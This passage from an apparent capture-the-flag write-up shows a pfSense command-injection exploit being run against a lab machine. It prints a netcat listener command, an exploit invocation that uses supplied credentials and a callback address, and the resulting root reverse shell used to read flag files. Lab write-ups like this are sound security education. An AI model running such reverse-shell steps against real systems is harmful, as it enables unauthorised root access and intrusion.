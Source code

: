 So, I turned up a listener to receive the shell
```
nc -lvnp 1234
```

Then ran the exploit
```
python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.6 --lport 1234 --username rohit --password pfsense
```

And I got the shell
```
┌──(darshan㉿kali)-[~]
└─$ nc -lvnp 1234   
listening on [any] 1234 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.60] 13044
sh: can't access tty; job control turned off
# whoami
root
```

For this machine, there was no need to escalate peivileges since pfSense is running as a root and therefore when we exploited the command injection vulnerability we got a shell with root privileges.

Retreiving the `user.txt` and `root.txt`
```
# ls        
GW_WAN-quality.rrd
WAN_DHCP-quality.rrd
ipsec-packets.rrd
ipsec-traffic.rrd
system-mbuf.rrd
system-memory.rrd
system-processor.rrd
system-states.rrd
updaterrd.sh
wan-packets.rrd
wan-traffic.rrd
# cd /home
# ls
.snap
rohit
# cd rohit
# ls
.tcshrc
user.txt
# cat user.txt
[REDACTED]
# cd /root
# ls
.cshrc
.first_time
.gitsync_merge.sample
.hushlogin
.login
.part_mount
.profile
.shrc
.tcshrc
root.txt
# cat root.txt
[REDACTED]

```
